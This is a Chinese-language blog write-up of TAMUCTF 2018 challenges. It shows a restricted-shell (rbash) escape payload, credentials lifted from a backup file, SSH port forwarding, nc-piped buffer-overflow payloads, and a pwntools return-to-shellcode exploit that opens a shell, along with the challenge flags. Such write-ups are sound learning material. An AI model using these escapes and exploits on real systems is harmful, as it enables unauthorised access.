 ```yaml
---
layout: post
title: 'TAMUCTF-2018'
tags: 'write-up tamuctf'
date: '2018-02-27'
author: 'racterub'
---
```


太多情境題了
web 滿滿的水題有點無言
只寫一些值得紀錄的

## Misc
### you can run, you can hide [25]

```
find the hidden flag.

ssh tamuctf@shell1.ctf.tamu.edu -p 2223
password: tamuctf
```

ssh 進去之後發現他是用`rbash`，意外在網路上找到神奇 payload (到現在還不知道原理)
`BASH_CMDS[a]=/bin/sh;a`
[Source](https://www.cnblogs.com/xiaoxiaoleo/p/8450379.html)

目錄裡面直接就有flag了
`gigem{TAMU_secret_society_qSD358OUYGcezTlFbqeh}`

後面神隊友給了另一個 payload (在看連入的連線的時候發現好像大部分都是這樣連入的)
`ssh tamuctf@shell1.ctf.tamu.edu -p 2223 -t "bash --noprofile"`

### enum [150]

```
Find the hidden flag.
You do not need to bruteforce. Don't do it.

ssh tamuctf@shell2.ctf.tamu.edu -p 2222
password: tamuctf
```

這題卡很久，最後靠隊友 carry
連續前面一題，繞過之後我一開始在`/var/backups/`找到`.srv.bak`，裡面放了帳號跟密碼
後來就是隊友carry的部分了
用`ps aux`指令發現有一個程序是執行`/bin/bash -c /usr/sbin/service ssh restart && cd /.administrators && /usr/bin/python /.administrators/pyserver.py 9000`
後來在自己的電腦執行`ssh -L 1234:localhost:9000 tamuctf@shell2.ctf.tamu.edu -p 2222`(port forwarding)，在自己的瀏覽器開啟`localhost:1234`再輸入之前找到的帳號密碼就可以得到 flag 了
`gigem{pivot_piv0t_P1V0T_20975430987aff92qf89qf}`

## Pwn
### Pwn1
只是覆蓋`cmp DWORD PTR [ebp-0xc],0xf007ba11`而已

Payload:
```bash
python -c "print 'a'*23 + '\x11\xba\x07\xf0'" | nc pwn.ctf.tamu.edu 4321
```

### Pwn2
執行`echo`函式時，可以 Overflow 跳到`print_flag`

Payload:
```bash
python -c "print 'a'*243 + '\x4b\x85\x04\x08'" | nc pwn.ctf.tamu.edu 4322
```

### Pwn3
觀察了一下會發現輸出的 random number 會是 buffer 的起始地址，所以方向就很清楚了 `return to shellcode`

Payload:
```python
#!/usr/bin/env python

from pwn import *

#r = process('./pwn3')
#r = remote('0.0.0.0', 8888)
r = remote('pwn.ctf.tamu.edu', 4323)
context.log_level = 'debug'
context.arch = 'i386'

r.recvuntil('Your random number ')
addr = int(r.recv(10).strip(), 16)

shellcode = asm(shellcraft.i386.linux.sh())

payload = shellcode + 'a' * (242-len(shellcode)) + p32(addr)

print hex(addr)
print p32(addr)
print payload

r.recvuntil('?')
#raw_input('########')
r.sendline(payload)
```

### 總結
我 pwn 跟中邪一樣，payload 我寫都不過，隊友寫都過==
這場情境題太多了，感覺不像一般的 CTF 反而比較像政府辦的資安比賽

